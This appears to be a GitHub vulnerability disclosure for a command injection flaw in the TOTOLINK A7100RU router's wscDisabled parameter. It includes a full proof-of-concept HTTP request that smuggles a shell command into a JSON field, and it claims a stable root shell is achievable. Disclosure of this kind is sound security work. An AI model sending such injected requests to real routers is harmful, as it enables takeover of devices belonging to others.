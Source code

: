 # TOTOlink A7100RU Command injection vulnerability

## Overview

- Manufacturer's website information：http://totolink.net/
- Firmware download address ： http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1. Affected version

![image-20220401101510842](img/image-20220401101510842.png)

Figure 1 shows the latest firmware Ba of the router

## 2.Vulnerability details

![image-20220401134101276](img/image-20220401134101276.png)

The program passes the content obtained by the wscdisabled parameter to the V3 parameter, then assigns V3 to V6, and finally brings V6 to UCI_ Set_ In str function

![image-20220401101339084](img/image-20220401101339084.png)

Format the A4 matched content into V11 through snprintf function, and then bring V11 into cstesystem function

![image-20220401101404038](img/image-20220401101404038.png)

The function directly brings user input into the execv function, which has a command injection vulnerability

## 3.Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V7.4cu.2313_B20191024
2. Attack with the following  overflow POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/adm/status.asp?timestamp=1647872753309
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setWiFiSignalCfg",
"wscDisabled":"1$(ls>/tmp/123;)"}
```

The reproduction results are as follows:

![image-20220401130711827](img/image-20220401130711827.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220401131610763](img/image-20220401131610763.png)

